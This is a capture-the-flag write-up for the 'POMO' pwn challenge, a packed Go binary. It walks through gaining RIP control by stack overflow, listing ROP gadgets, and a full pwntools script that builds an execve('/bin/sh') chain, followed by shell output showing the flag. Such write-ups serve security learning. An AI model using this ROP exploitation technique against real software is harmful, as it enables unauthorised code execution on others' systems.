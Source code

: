 # Pwn Overflow More Often [992/3]

Many-Many-More reasons for you to love POMO! Port over your number with us today to  get a free gift of any gadget you want! Our telco backbone is powered by a super secure modern programming language which means you don't need  to worry about being hacked! Your data is definitely safe with us! 

`nc chals.ctf.sg 20201`

Author: violenttestpen

**Files**: [pomo](https://api.ctf.sg/file?id=ckm3lacvv0h9j0880qxmkwc8w&name=pomo)

![image-20210314121309694](image-20210314121309694.png)

This is a cheap writeup: it doesn't go far into the internals of the program, and is mostly a narration of my experiences with the challenge.

## Solving

The binary is a golang binary. I have absolutely no idea how it works.

Doesn't matter, because adding `cyclic(500)` seems to give RIP control easily enough (after `cyclic(cyclic_find('oaaa'))`:

![image-20210314064548597](image-20210314064548597.png)

I follow the method [outlined here](https://1ce0ear.github.io/2018/01/12/seccon2017-babystack/), and I do my best to look for gadgets in the binary. **Make sure to unpack the binary** (with `upx -d`) first, or you will waste a lot of time on fake gadgets like me.

These are the gadgets I found:

```c
ret: 0x49aa44
syscall: 0x4108db
pop rax; ret: 0x403c0d
pop rsi; ret: 0x4387be
pop rdx; ret: 0x4188e2
# no pop rdi; ret found !!!
0x000000000041003d: pop rdi; dec dword ptr [rax + 0x21]; ret;
0x0000000000457ca4: pop rdi; sete byte ptr [rsp + 0x10]; ret;
0x0000000000463f6f: mov qword ptr [rdi], rax; ret;
```

Between the two `pop rdi;` gadgets, I picked the `sete` one, because it only zeros out a single byte at `[rsp+0x10]`, and you can stick that next to a `pop rsi;` to save ROP space.

![image-20210314065014274](image-20210314065014274.png)

There's constant rw space at 0x541000 onwards, so I shoved `/bin/sh` at 0x541000.

My first attempt for the ROP chain had a ton of `'a'`s inside:

![image-20210314073741986](image-20210314073741986.png)

As it turns out, some of the padding bytes within `cyclic(cyclic_find('oaaa'))` are copied to the middle of the ROP chain:

![image-20210314074123799](image-20210314074123799.png)

Don't know why it happens, but I just shove the relevant parts of the ROP chain haphazardly inside:

```python
from pwn import *
r = remote('chals.ctf.sg', 20201)
ret = 0x49aa44
RAX = 0x403c0d
RSI = 0x4387be
RDX = 0x4188e2
SYSCALL = 0x4108db
RDI_WTF = 0x457ca4
scratch = 0x550000
MOV_QWORD = 0x463f6f
context.binary = 'pomo'

chain = fit(RAX, b'/bin/sh\0', RDI_WTF)
sidechain = fit(scratch, MOV_QWORD, RSI)
chain+= b'B'*0x18
chain+= fit(0, RDX, 0)
chain+= fit(RAX, 59, SYSCALL)

r.sendafter('no.: ', cyclic(cyclic_find(b'oaaa')).replace(b'gaaahaaaiaaajaaakaaalaaa', sidechain) + chain)
r.interactive()
```

The ROP chain here is semi-optimised for space; you need to observe where you can cut corners for it.

## Flag

```sh
[*] Switching to interactive mode
$ ls
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat /home/pomo/flag.txt
CTFSG{g@dg3tRy_W1z@rdry_tO_pWn_g0l@nG}$
```